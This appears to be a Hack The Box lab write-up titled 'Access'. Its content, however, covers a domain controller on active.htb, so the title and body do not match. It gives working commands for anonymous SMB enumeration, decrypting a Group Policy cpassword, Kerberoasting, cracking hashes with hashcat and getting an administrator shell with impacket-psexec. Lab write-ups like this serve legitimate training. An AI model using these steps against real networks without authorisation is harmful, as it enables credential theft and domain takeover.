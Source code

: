 ```yaml
---
title: "HTB : Access"
permalink: /writeups/access
location: default
---
```


# Access

**Machine Information**

	IP : 10.10.10.100
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.100 -- -sC -sV
```

This should reveal a number of services including `kerberos`, `ldap`, and `smb`.

```
PORT      STATE SERVICE       REASON  VERSION
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-07-03 06:41:56Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5722/tcp  open  msrpc         syn-ack Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49170/tcp open  msrpc         syn-ack Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 49509/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 2846/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-07-03T06:42:54
|_  start_date: 2024-07-03T06:39:28
|_clock-skew: 0s
```

### Getting a Foothold

**SMB**

Running `smbmap` shows that there is one share with read-only access as an anonymous user.

```
smbmap -H 10.10.10.100
```

After manually exploring the file system we find a `Groups.xml` file in the following location:

```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

Open the file to find a `cpassword` for the user `active.htb\SVC_TGS`.

This is an AES encrypted password but in 2014 Microsoft published the key on MSDN which allowed for all encrypted passwords to be decrypted. Unless these passwords were changed they are still vulnerable to decryption. Using `gpp-decrypt` we can get the plaintext password.

```
gpp-decrypt "PASSWORD HASH"
```

**Kerberoasting**

Using these credentials we can attempt to grab hashes using `impacket-GetUserSPNs`.

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

**Hashcat**

We retrieved the hash for the Administrator user. We now attempt to crack it using `hashcat`.

```
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt
```

This successfully cracks these hash revealing the password for the Administrator user. With Administrator credentials we can connect to the target system using `impacket-psexec`.

```
impacket-psexec active.htb/administrator@10.10.10.100
```

With shell access grab the user flag.

```
type C:\Users\SVC_TGS\Desktop\user.txt
```

### Privilege Escalation

No privilege escalation is required so we can grab the root flag as well.

```
type C:\Users\Administrator\Desktop\root.txt
```

